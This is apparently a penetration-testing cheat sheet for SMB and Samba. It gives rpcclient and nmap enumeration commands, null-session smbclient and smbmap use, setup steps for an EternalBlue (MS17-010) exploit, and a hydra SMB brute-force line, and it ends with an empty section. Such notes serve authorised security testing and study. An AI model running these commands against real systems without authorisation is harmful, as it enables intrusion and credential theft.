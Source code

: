 ## Follow up enum
```
rpcclient> querygroup 0x200
rpcclient> querygroupmem 0x200
rpcclient> queryuser 0x3601
rpcclient> getusrdompwinfo 0x3601
```

# SMB
* Ports 139, 445
## NMAP
```
nmap --script "smb-vuln*" -p 445,139 10.11.1.123
nmap --script "safe or smb-enum-*" -p 445,139 10.11.1.123
````
## Samba (LINUX SMB) \[139 TCP\]
* Check Samba service version:
  * Samba <2.2.8 versions are vulnerable to RCE.
  * Samba 3.5.11/3.6.3 versions are vulnerable to RCE.
## SMB (WINDOWS SMB) \[139, 445 TCP\]
**Fully Automated**
```
sudo apt install smbclient python3-ldap3 python3-yaml python3-impacket
```
Download [enum4linux-ng](https://github.com/cddmp/enum4linux-ng), place in `/usr/bin` and make executable:
```
enum4linux-ng 10.10.10.10
```
**Manual**:
```
nmblookup -A 10.10.10.10
smbclient -L //10.10.10.10  // null session
enum4linux 10.10.10.10  // null session
nbtscan 10.10.10.10
smbclient --no-pass -L //10.10.10.10  //list shares
smbclient --no-pass \\\\[target]\\[share]   //connect to a share
smbmap -u "guest" -R [share] -H 10.10.10.10  //recursively list files in a folder
smbget -R smb://10.10.10.10/share  //recursively get files from target share/dir
sudo nmap --script smb-vuln-* 10.10.10.10
```
## Eternal Blue
```
git clone https://github.com/REPTILEHAUS/Eternal-Blue.git
cd Eternal-Blue
wget https://raw.githubusercontent.com/worawit/MS17-010/master/mysmb.py
source ~/opt/impacket/impacket-venv/bin/activate
python2 checker.py 10.10.10.10
```
## SMB Brute Force
```
hydra -V -f -l [username] -P [/path/to/wordlist] smb # smb brute-force
```
## Crackmapexec
[Pentesting with Crackmapexec](https://cheatsheet.haax.fr/windows-systems/exploitation/crackmapexec/)
Identify computer users:
```
```